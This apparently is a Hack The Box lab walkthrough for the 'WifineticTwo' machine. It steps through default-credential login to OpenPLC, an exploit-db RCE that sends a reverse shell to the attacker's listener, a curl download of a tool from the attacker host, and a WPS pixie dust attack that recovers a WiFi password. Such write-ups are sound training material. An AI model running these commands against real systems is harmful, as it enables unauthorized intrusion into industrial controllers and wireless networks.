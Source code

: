 ```yaml
---
title: HTB- WifineticTwo
draft: false
tags:
  - htb
  - linux
  - wifi
  - openplc
  - oneshot
  - pixiedust
  - medium
---
```


![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/wifinetictwo/WifineticTwo.png)

## Information Gathering
### Rustscan

Rustscan discovers SSH and port 8080 open:

`rustscan --addresses 10.10.11.7 --range 1-65535`

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/wifinetictwo/image-1.png)

## Enumeration
### HTTP - TCP 8080

The website shows **OpenPLC Webserver** login portal: 

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/wifinetictwo/image.png)

Googling a little bit about it, default credentials are shown to be **openplc**:**openplc**.

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/wifinetictwo/image-3.png)

Using the default credentials, we are able to login to the system:

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/wifinetictwo/image-2.png)

## OpenPLC RCE

Researching on known vulnerabilities regarding OpenPLC, it seems like we can exploit [Authenticated RCE](https://www.exploit-db.com/exploits/49803).

There's some minor script modification to be made before running the exploit. 

At **compile_program**, we can see **681871.st** is being used:

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/wifinetictwo/image-4.png)

However, OpenPLC is using a program name **blank_program.st**:

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/wifinetictwo/image-5.png)

Let's modify the script according to it as such:

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/wifinetictwo/image-7.png)

Now let's run the exploit towards our netcat listener:

`python 49803.py -u http://10.10.11.7:8080 -l openplc -p openplc -i 10.10.14.29 -r 1337`

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/wifinetictwo/image-6.png)

We get a reverse shell as the root:

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/wifinetictwo/image-8.png)


## Privilege Escalation

`ifconfig` commands shows a network interface **wlan0**, which is usually used for WiFi:

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/wifinetictwo/image-9.png)

Let's find more about it through: `iw dev wlan0 scan`

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/wifinetictwo/image-10.png)

Scan shows that there's a Wifi **plcrouter** which has WPS enabled.

### Pixie Dust

Based on the scan result above, we can try **pixie dust** attack using **[oneshot](https://github.com/kimocoder/OneShot)**.

Let's first upload **oneshot.py** to the host using Python HTTP server and curl:

`curl 10.10.14.29:1335/oneshot.py > oneshot.py`

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/wifinetictwo/image-11.png)

Now let's decrypt the WEP-encrypted WLAN traffic and receive password using the following command:

`python3 oneshot.py -i wlan0 -K`

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/wifinetictwo/image-12.png)

Password **NoWWEDoKnowWhaTisReal123!** is discoverd.

Next, let's generate a passphrase for a WLAN network and write it to a configuration file:

`wpa_passphrase plcrouter 'NoWWEDoKnowWhaTisReal123!' > config`

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/wifinetictwo/image-13.png)

Let's initiate the WPA Supplicant daemon with the specified configuration file "config" and associates it with the wireless network interface "wlan0":

`wpa_supplicant -B -c config -i wlan0`

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/wifinetictwo/image-14.png)

At the momment, there is no ip address assigned to wlan0:

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/wifinetictwo/image-15.png)

Let's assign IP address 192.168.1.5 with the netmask 255.255.255.0 to the network interface waln0:

`ifconfig wlan0 192.168.1.5 netmask 255.255.255.0`

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/wifinetictwo/image-16.png)

Now we should be able to login to 192.168.1.1(router).

SSH login to the router is blocked for some reason:

`ssh root@192.168.1.1`

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/wifinetictwo/image-17.png)

After starting interactive TTY session with Python, we now have access to the router through SSH:

`python3 -c 'import pty; pty.spawn("/bin/bash")'`

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/wifinetictwo/image-18.png)


## References
- https://github.com/kimocoder/OneShot
- https://www.exploit-db.com/exploits/49803

